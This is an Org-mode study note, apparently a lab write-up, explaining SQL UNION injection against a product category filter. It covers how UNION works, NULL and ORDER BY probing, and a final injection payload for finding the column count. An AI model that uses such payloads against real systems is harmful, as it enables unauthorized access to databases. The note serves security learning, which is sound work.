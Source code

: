 #+title: SQL injection UNION attack, determining the number of columns returned by the query


* About
sql injection into product ~category~ filter

** End Goal
use sql injection ~UNION~ attack to determine the number of columns returned by the query

* UNION in sql
~UNION~ is used to combine the result-set of two or more ~SELECT~ statements

+ users

| username | password  |
|----------+-----------|
| admin    | admin     |
| smith    | pass12345 |
|----------+-----------|

+ product

| itemName | price |
|----------+-------|
| pen      |    10 |
| paper    |    20 |
|----------+-------|

** Sample Query
#+begin_src sql
SELECT username, password FROM users
#+end_src

** output

| admin | admin     |
| smith | pass12345 |

** Query with UNION
#+begin_src sql
SELECT username, password FROM users UNION SELECT itemName,price FROM product
#+end_src

** output

| admin |     admin |
| smith | pass12345 |
| pen   |        10 |
| paper |        20 |

** Some rule for UNION to work

+ Every ~SELECT~ statement within ~UNION~ must have the same number of columns
+ Same data types in columns
+ Same order in the columns in every ~SELECT~ statement

* Figure out
We have to figure out the correct number of columns first

** way 1
~dummy query~
#+begin_src sql
SELECT something FROM users UNION SELECT NULL
#+end_src
~error => incorrect number of columns~
users table has two columns

#+begin_src sql
SELECT something FROM users UNION SELECT NULL,NULL
#+end_src
~200 response code => correct number columns~

** way 2
#+begin_src sql
SELECT something FROM users order by 2
#+end_src

* Solution
#+begin_src sql
'UNION SELECT NULL,NULL,NULL --
#+end_src
